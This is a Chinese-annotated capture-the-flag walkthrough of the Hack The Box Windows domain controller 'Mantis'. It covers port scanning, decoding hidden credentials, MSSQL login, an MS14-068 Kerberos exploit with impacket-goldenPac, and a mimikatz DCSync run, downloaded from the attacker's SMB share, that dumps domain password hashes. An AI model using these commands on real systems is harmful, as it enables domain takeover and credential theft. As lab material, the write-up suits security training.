Mantis

export IP=10.10.10.52
Recon & Enum
Nmap
- Tcp
PORT STATE SERVICE VERSION
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_ bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-01-24 02:15:42Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
1337/tcp open http Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods:
|_ Potentially risky methods: TRACE
1433/tcp open ms-sql-s Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-01-24T02:14:31
|_Not valid after: 2054-01-24T02:14:31
|_ssl-date: 2024-01-24T02:16:54+00:00; +1s from scanner time.
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5722/tcp open msrpc Microsoft Windows RPC
8080/tcp open http Microsoft IIS httpd 7.5
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp open mc-nmf .NET Message Framing
47001/tcp closed winrm
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49158/tcp open msrpc Microsoft Windows RPC
49167/tcp open msrpc Microsoft Windows RPC
49172/tcp open msrpc Microsoft Windows RPC
49173/tcp open msrpc Microsoft Windows RPC
50255/tcp open ms-sql-s Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-01-24T02:14:31
|_Not valid after: 2054-01-24T02:14:31
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2024-01-24T02:16:54+00:00; +1s from scanner time.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=1/24%OT=53%CT=47001%CU=37354%PV=Y%DS=2%DC=T%G=Y%TM=65B
...
OS:DFI=N%T=80%CD=Z)
Network Distance: 2 hops
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
Host script results:
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-time:
| date: 2024-01-24T02:16:48
|_ start_date: 2024-01-24T02:14:06
| smb-os-discovery:
| OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
| OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
| Computer name: mantis
| NetBIOS computer name: MANTIS\x00
| Domain name: htb.local
| Forest name: htb.local
| FQDN: mantis.htb.local
|_ System time: 2024-01-23T21:16:45-05:00
|_clock-skew: mean: 1h00m01s, deviation: 2h14m10s, median: 0s
| smb2-security-mode:
| 210:
|_ Message signing enabled and required
10.10.10.52:1337

feroxbuster -u http://htb.local:1337 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -o feroxbuster_1337.log先用大字典扫最外层目录
404 GET 29l 95w 1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200 GET 826l 4457w 331772c http://htb.local:1337/welcome.png
200 GET 32l 53w 689c http://htb.local:1337/
500 GET 72l 241w 3026c http://htb.local:1337/orchard
301 GET 2l 10w 158c http://htb.local:1337/secure_notes => http://htb.local:1337/secure_notes/
- 发现 secure_notes 目录


- 最下面还藏了一手

1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
说是 sa 的凭据，二进制解码看一下

impacket-mssqlclient 'htb.local/sa:@dm!n_P@ssW0rd!@10.10.10.52'

凭据不对
- 查看文件名，很像 Base64 编码
dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt，得到一串十六进制数


impacket-mssqlclient 'htb.local/admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'再次尝试登录，admin 成功

Shell as Root
- 查看数据库，直接查看 orcharddb

SELECT * FROM orcharddb.INFORMATION_SCHEMA.TABLES;

- 发现 james 密码

- 密码喷射

- 登录 james
evil-winrm -i 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'无法登录

- 发现 Windows 版本是 Windows Server 2008 R2，尝试利用 MS14-068，首先获取 sid

james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
https://github.com/mubix/pykek
- 获取 TGT 票据
python2 ms14-068.py -u james@htb.local -p 'J@m3s_P@ssW0rd!' -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
- 设置票据
export KRB5CCNAME=TGT_james@htb.local.ccache
- Get Shell
impacket-goldenPac htb.local/james:'J@m3s_P@ssW0rd!'@mantis.htb.local

Dump Hash
impacket-smbserver good .
copy \\10.10.16.7\good\mimikatz.exe m.exe
m.exe "lsadump::dcsync /domain:htb.local /all /csv" exit
---
.#####. mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # lsadump::dcsync /domain:htb.local /all /csv
[DC] 'htb.local' will be the domain
[DC] 'mantis.htb.local' will be the DC server
[DC] Exporting domain 'htb.local'
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502 krbtgt 3e330665e47f7890603b5a96bbb31e23 514
1000 MANTIS$ a87369763969c892a4f1db0463ce31cb 532480
500 Administrator 22140219fd9432e584a355e54b28ecbb 66048
1103 james 71b5ea0a10d569ffac56d3b63684b3d2 66048